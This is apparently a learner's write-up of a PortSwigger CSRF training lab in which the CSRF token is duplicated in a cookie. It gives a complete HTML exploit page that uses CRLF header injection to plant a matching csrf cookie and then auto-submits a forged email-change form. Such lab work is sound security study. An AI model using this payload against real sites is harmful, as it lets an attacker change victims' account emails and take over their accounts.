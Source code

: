 # CSRF where token is duplicated in cookie

## This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

just crsf token usec in cookies and on page
no csrfkey look lab5
so from previous payload change csrfkey to csrf i

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a3900d203ac3c8b80c0301a00170060.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input required type="email" name="email" value="exa@website.com" />
      <input required type="hidden" name="csrf" value="fake" />
      <button class="button" type="submit">Update email</button>
    </form>
    <img
      src="https://0a3900d203ac3c8b80c0301a00170060.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```
